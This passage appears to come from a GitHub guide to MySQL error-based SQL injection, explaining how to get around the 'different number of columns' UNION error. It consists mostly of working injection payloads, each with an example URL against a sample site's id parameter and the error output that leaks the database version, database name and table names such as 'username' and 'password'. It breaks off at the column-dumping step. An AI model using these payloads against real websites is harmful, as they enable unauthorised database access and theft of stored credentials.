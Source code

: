 ## Bypassing Error message: The used SELECT statements have a different number of columns (First method)
Sometimes when you try to find which column is vulnerable via UNION based queries you will face this error:

```The used SELECT statements have a different number of columns```

Try the following payload to bypass the error message:  

**Retrieve database version:**  
```+OR+1+GROUP+BY+CONCAT_WS(0x3a,VERSION(),FLOOR(RAND(0)*2))+HAVING+MIN(0)+OR+1--+-```

Example: ```http://domain.com.br/index.php?id=1'+OR+1+GROUP+BY+CONCAT_WS(0x3a,VERSION(),FLOOR(RAND(0)*2))+HAVING+MIN(0)+OR+1--+-```  
Error Output includes the database version:  
>Duplicate entry '**5.7.29**-log:1' for key ''  

**Retrieve database name:**  
```+AND(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(DATABASE()+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema=DATABASE()+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)-- -```  

Example: ```http://domain.com.br/index.php?id=1'+AND(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(DATABASE()+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema=DATABASE()+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)-- -```  

Error Output includes the database name:  
>Duplicate entry '**litoflex**~1' for key ''

**Retrieve tables:**  

First we convert the database name to 0xHEX: **litoflex** -> **0x6c69746f666c6578**

Given query will output the first table of the database:  
```+AND(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(table_name+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema=0x6c69746f666c6578+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)-- -```  

Error output shows the first table name:  
>Duplicate entry '**username**~1' for key ''  

Given query will output the second table of the database:  
```+AND(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(table_name+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema=0x6c69746f666c6578+LIMIT+1,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)-- -```  

Error output shows the first table name:  
>Duplicate entry '**password**~1' for key ''  

Given query will output the third table of the database:  
```+AND(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(table_name+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema=0x6c69746f666c6578+LIMIT+2,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)-- -```  

Error output shows the first table name:  
>Duplicate entry '**id**~1' for key ''  

Do the same with but change the number in the payload to retrieve different tables: (+LIMIT+**0**,1)  
Change it to: (+LIMIT+**1**,1) then (+LIMIT+**2**,1)... to retrieve different table columns.

**Retrieve columns

Before going further, convert the database name, table name(s) into 0xHEX. This case I will dump columns inside **username** table.

Converting from string to 0xHEX:  
```
litoflex -> 0x6c69746f666c6578  
username -> 0x757365726e616d65
```
```